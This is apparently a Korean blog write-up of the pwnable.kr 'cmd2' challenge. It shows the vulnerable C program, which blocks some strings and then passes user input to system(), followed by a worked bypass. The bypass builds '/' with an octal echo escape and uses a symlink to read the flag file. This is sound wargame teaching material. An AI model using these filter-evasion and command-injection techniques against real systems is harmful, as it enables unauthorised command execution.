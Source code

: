```yaml
---
title: Pwnable KR - cmd2
slug: pwnable-kr-cmd2
date: 2016-04-25 19:39:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR cmd2](pwnablr-kr-cmd2.png)

9점 문제.

cmd2.c의 내용은 아래와 같다.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

/만 쓸 수 있으면 풀 수 있을 것 같다. 그렇다면 어떻게 필터링을 피할 수 있을까?

## 풀이

```sh
$ echo /
/
$ $(echo /)
-bash: /: Is a directory
```

위와 같은 쉘 스크립트의 특성을 활용해보자

$(echo /)bin$(echo /)cat flag

/bin/cat flag를 표현해봤다. 위처럼 그대로 넣으면 안되고, 아래처럼 좀 수정해서 넣어줘야 한다.

./cmd '$(echo "\57")bin$(echo "\57")cat flag'

/ 문자는 8진수 아스키 코드로 57이고, "로 감싸야 한다. 변형 없이 그대로 전달해야하므로 인자 전체는 '로 감싸야 한다.

마지막으로 flag만 필터를 피하면 되는데, 이건 cmd1 풀 때처럼 심볼릭 링크를 쓰면 된다.

아래는 풀이

```sh
mkdir /tmp/cmd2k
cd /tmp/cmd2k
ln -s /home/cmd2/cmd2 cmd2
ln -s /home/cmd2/flag f
./cmd2 '$(echo "\57")bin$(echo "\57")cat f'
```

아이 신나
